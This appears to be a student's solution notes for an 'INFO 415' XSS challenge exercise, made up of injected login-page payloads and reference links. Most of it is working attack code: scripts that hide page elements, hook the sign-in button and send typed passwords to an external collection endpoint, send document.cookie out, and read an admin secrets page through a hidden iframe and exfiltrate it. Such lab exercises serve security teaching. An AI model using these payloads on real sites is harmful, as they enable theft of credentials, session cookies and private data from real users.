 Royce Le
INFO 415

Payload1 - 

Payload2 -
http://xss-challenges.r7.io/0/login?username=%3Cscript%3Ewindow.location.replace%28%22http%3A%2F%2Flocalhost%3A8000%2F%22%29%3B%3C%2Fscript%3E&password=hi&user_language=english

Resources Used:
-Payload2-
*How to redirect w/ Javascript
	*http://stackoverflow.com/questions/4744751/how-do-i-redirect-with-javascript
	*http://stackoverflow.com/questions/9800310/add-event-handler-to-html-element-using-javascript
*How to add event handler to html element
	*http://stackoverflow.com/questions/9800310/add-event-handler-to-html-element-using-javascript
*How to change visibility
	*https://www.w3schools.com/jsref/prop_style_visibility.asp

-Payload4-
*How to get an element from w/in an iFrame
	*http://stackoverflow.com/questions/1088544/javascript-get-element-from-within-an-iframe
	*http://stackoverflow.com/questions/16755347/getting-contents-of-iframe-with-pure-javascript
*How to display text from an element
	*https://www.w3schools.com/jsref/prop_html_innerhtml.asp
*How to use an iFrame
	*https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#IFRAME

below is your token for saving and retrieving data
go to http://r7.io/e/[token]?s= and whatever comes after the = will be saved
go to http://r7.io/e/[token] without the s parameter to retrieve the data
http://r7.io/e/J7zkgVqCiG
data will be overwritten with every save
be careful to URL encode what you save so ; & + / don't cause issues

token: J7zkgVqCiG

------------------------My URL Payloads-----------------
PAYLOAD 1
http://xss-challenges.r7.io/0/login?username=%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload+%3Dfunction+%28%29%7B+%09var+el+%3D+document.getElementById%28%22signin-btn%22%29%3B+%09if+%28el.addEventListener%29+%7B+%09++++el.addEventListener%28%22click%22%2C+yourFunction%2C+false%29%3B+%09%7D+else+%7B+%09++++el.attachEvent%28%27onclick%27%2C+yourFunction%29%3B+%09%7D+%09%7D%3B+%09function+yourFunction%28%29%7B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+password+is%3A+%27+%2B+document.getElementById%28%27login_password%27%29.value%3B+%09%7D+++%3C%2Fscript%3E&password=hi&user_language=english

PAYLOAD 2

PAYLOAD 3
http://xss-challenges.r7.io/0/login?username=%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload+%3Dfunction+%28%29%7B+%09%09alert%28document.cookie%29%3B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+%27+%2B+document.cookie%3B+%09%7D%3B+%3C%2Fscript%3E&password=hi&user_language=english

PAYLOAD 4
http://xss-challenges.r7.io/0/login?username=%3Ciframe+src%3D%22http%3A%2F%2Fxss-challenges.r7.io%2Fadmin%2Fsecrets%22+id%3D%22gotcha%22+style%3D%22opacity%3A+0%3B%22+%3E%3C%2Fiframe%3E+%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload%3Dfunction%28%29+%7B+%09%09var+iframe+%3D+document.getElementById%28%27gotcha%27%29%3B+%09%09var+innerDoc+%3D+iframe.contentDocument+%7C%7C+iframe.contentWindow.document%3B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+secret+is%3A+%27+%2B+innerDoc.getElementById%28%22secrets%22%29.innerText%3B+%09%09alert%28innerDoc.getElementById%28%22secrets%22%29.innerText%29%3B+%09%7D+%3C%2Fscript%3E&password=hi&user_language=english

------------------------My Code Payloads-----------------
Payload1
<input id="button" type="submit" name="button" onclick="myFunction();" value="enter"/>
<script>function myFunction(){alert(username + password);};</script>
----------------------------------------------
Payload2
<script>
	var prob = document.getElementsByClassName("problem");
	prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message");
	errmsg[0].style.display = "none";
	window.onload =function (){
		var el = document.getElementById("signin-btn");
		if (el.addEventListener) {
		    el.addEventListener("click", yourFunction, false);
		} else {
		    el.attachEvent('onclick', yourFunction);
		}
	};
	function yourFunction(){
		alert(document.cookie);
		i = new Image();
		i.src='http://r7.io/e/J7zkgVqCiG?s=The password is: ' + document.cookie;
	}  
</script>
---------------------------------------------------
Payload3
<script>
	var prob = document.getElementsByClassName("problem");
	prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message");
	errmsg[0].style.display = "none";
	window.onload =function (){
		alert(document.cookie);
		i = new Image();
		i.src='http://r7.io/e/J7zkgVqCiG?s=The ' + document.cookie;
	};
</script>
---------------------------------------------------
Payload4
<iframe src="http://xss-challenges.r7.io/admin/secrets" id="gotcha" style="opacity: 0;" ></iframe>
<script>
	var prob = document.getElementsByClassName("problem");
	prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message");
	errmsg[0].style.display = "none";
	window.onload=function() {
		var iframe = document.getElementById('gotcha');
		var innerDoc = iframe.contentDocument || iframe.contentWindow.document;
		i = new Image();
		i.src='http://r7.io/e/J7zkgVqCiG?s=The secret is: ' + innerDoc.getElementById("secrets").innerText;
		alert(innerDoc.getElementById("secrets").innerText);
	}
</script>